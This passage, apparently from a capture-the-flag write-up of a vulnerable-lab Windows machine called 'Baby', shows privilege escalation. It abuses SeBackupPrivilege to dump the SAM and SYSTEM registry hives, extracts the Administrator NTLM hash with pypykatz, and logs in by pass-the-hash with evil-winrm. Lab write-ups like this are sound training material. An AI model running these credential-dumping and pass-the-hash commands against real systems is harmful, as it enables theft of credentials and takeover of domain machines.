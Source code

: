 ```bash
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.
```
The important part here is that we are part of the groups SeBackupPrivilege and SeRestorePrivilege. Following the steps in this article https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/, we can perform the following commands:

```bash
Part 1
cd c:\
mkdir Temp
reg save hklm\sam c:\Temp\sam
reg save hklm\system c:\Temp\system

Part 2

cd Temp
download sam
download system

Part 3

pypykatz registry --sam sam system

...
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8d992faed38128ae85e95fa35868bb43::
```

Now, we have the NTLM Hash, which allows us to log in. We can do it as follows:

```bash
evil-winrm -i 10.10.64.243 -u 'Administrator' -H '8d992faed38128ae85e95fa35868bb43'
```

With this, we can find the root flag VL{b8512958}.

## Conclution 

In conclusion, "Baby" on the Vulnab environment holds significant offensive value. This machine offers an excellent opportunity to enhance skills in reconnaissance, enumeration, and exploitation in Windows environments, particularly in the context of Active Directory.
